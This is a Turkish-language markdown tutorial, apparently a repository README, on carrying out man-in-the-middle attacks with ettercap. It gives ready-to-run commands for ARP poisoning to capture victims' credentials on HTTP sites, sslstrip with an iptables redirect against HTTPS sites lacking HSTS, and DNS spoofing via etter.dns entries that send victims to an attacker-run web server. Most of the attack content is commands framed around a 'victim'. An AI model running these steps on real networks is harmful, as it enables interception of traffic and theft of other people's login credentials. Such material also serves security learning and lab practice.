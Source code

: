 # MITM Saldırısı
MITM (Man In The Middle) saldırısı yapmak için kullanılan bir sürü araç vardır. Benim tercihim ise ettercap. Sebebi ise kullanırken diğer araçlara nazaran (mitmproxy, bettercap gibi) daha az hata ile karşılaşmam. Bir diğer sebebi ise grafiksel arayüzünün de mevcut olması.
### Ettercap ile HTTP siteler için saldırmak
Ettercap ile saldırı yapmadan önce /etc/ettercap/etter.conf dosyasında değişiklik yapmamız gerekiyor.<br/><br/>
`leafpad /etc/ettercap/etter.conf`<br/><br/>
komutu ile ilgili dosyayı açıyoruz.<br/><br/>
#####################################<br/>
\# redir_command_on/off<br/>
#####################################<br/><br/>
başlığı altında Linux bölmesinde redir_command_on ve redir_command_off satırlarının başında bulunan # karakterlerini siliyoruz. Sonrasında ettercap’i çalıştırabiliriz.<br/><br/>
`ettercap -Tq ///`<br/><br/>
bu komut ile ettercap’i sadece çalıştırdık, bir adres vs. girmediğimiz için herhangi bir saldırı başlatmadık. bu komutu çalıştırdıktan sonra l tuşuna basarsak aynı ağdaki cihazları bulacaktır. q ile de çıkış yapabiliyoruz.<br/>
Saldırı yapmak için aşağıdaki komutu çalıştırıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -i eth0 /192.168.10.1// /192.168.10.131//`<br/><br/>
Burada ///’ların bir anlamı var. mac_adress/ipv4/ipv6/port şeklinde girdi verebiliyoruz. Yukarıda ipv4 kullanarak bir saldırı yaptık. Önce modemin IP adresini, sonra kurbanın IP adresini yazdık. Bu komutu yazdıktan sonra kurban bir http sitesi üzerinden credentials girerse terminalimize düşecektir.
### Ettercap ile HTTPS siteler için saldırmak
HTTPS sitelerden gelen bilgileri okumak için ya ettercap içindeki bir plugin'i, ya da sslstrip kullanmalıyız. sslstrip halihazırda yoksa indirmeliyiz. Lakin kurulumu ve çalıştırmasında bazen sorun çıkabiliyor. Bunun için internetten araştırma yapabilirsin. Benim karşılaştığım bir sorun vardı, çözümünü bulduğum video: [Sslstrip | requirement already satisfied: twisted in /usr/lib/python3/dist-packages (18.9.0)](https://www.youtube.com/watch?v=CCfJRYmJo2s&list=LL&index=1)<br/>
İlk olarak yönlendirme yapmalıyız.<br/><br/>
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`<br/><br/>
Sonra `sslstrip` diyerek sslstrip'i çalıştırıyoruz. Bir başka terminale geçip aşağıdaki komutu çalıştırıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -S -i eth0 /192.168.10.1// /192.168.10.15//`<br/><br/>
HTTP siteler için yaptığımız saldırıdaki komuttan farklı olarak -S ekledik. Eğer kurban HSTS olmayan, ama HTTPS kullanan bir sitede credentials girerse elimize düşecektir. Evet, maalesef HSTS varsa saldırımız işe yaramıyor. HSTS'in ne olduğu ve buna karşılık nasıl bir saldırı yapılabileceğini konu alan bir makale bu döküman ile birlikte paylaşılmıştır.<br/>
İşimiz bittikten sonra aşağıdaki komut ile yaptığımız yönlendirmeleri kaldırabiliriz.<br/><br/>
`iptables -t nat --flush`
### Ettercap ile DNS Saldırısı
DNS saldırısını şu şekilde özetleyebiliriz: Biz ortadaki adam olduğumuza göre bir kullanıcı bir siteye girmek istediğinde o kullanıcıya DNS sunucusunun o site için döndüğü IP adresi yerine başka bir IP adresi verebiliriz. Bunun adı DNS saldırısıdır. Göreceğimiz örnekte bir web sunucusu kurup ağ içindeki diğer kullanıcıları yerel ağda bulunan sitemize yönlendireceğiz. Kali Linux üzerinde web sunucusu kurmak için:<br/><br/>
`service apache2 start`<br/><br/>
Sonrasında /etc/ettercap/etter.dns dosyasında değişiklik yapmalıyız.<br/><br/>
`leafpad /etc/ettercap/etter.dns`<br/><br/>
Aşağıdaki eklemeleri yapıyoruz.<br/><br/>
```
domain.com A 10.0.2.10
*.domain.com A 10.0.2.10
www.domain.com A 10.0.2.10
```
<br/>Bunlardan biri de yapacağımız saldırıya göre yeterli olabilir. Sonrasında aşağıdaki komut ile saldırımızı başlatıyoruz.<br/><br/>
`ettercap -Tq -M arp:remote -P dns_spoof -i eth0 /192.168.10.1// /192.168.10.15//`
### Sonuç
Ettercap ile MITM saldırısının nasıl yapılacağını görmüş olduk. Tabii ki ettercap tek araç değil, birçok farklı araç kullanılarak da MITM saldırısı yapılabilir. Hatta bu repo içinde bulunan scriptler ile de MITM saldırısı yapılabilir. Hatta ve hatta bu scriptler başka araçlarla birlikte kullanılıp HTTPS siteler için MITM saldırısı yapılabilir. Örnek verecek olursak arp_poisoner ve packet_listener scriptlerimizi sslstrip ve dns2proxy ile birlikte kullanarak HTTPS siteler için MITM saldırısı yapabiliriz.
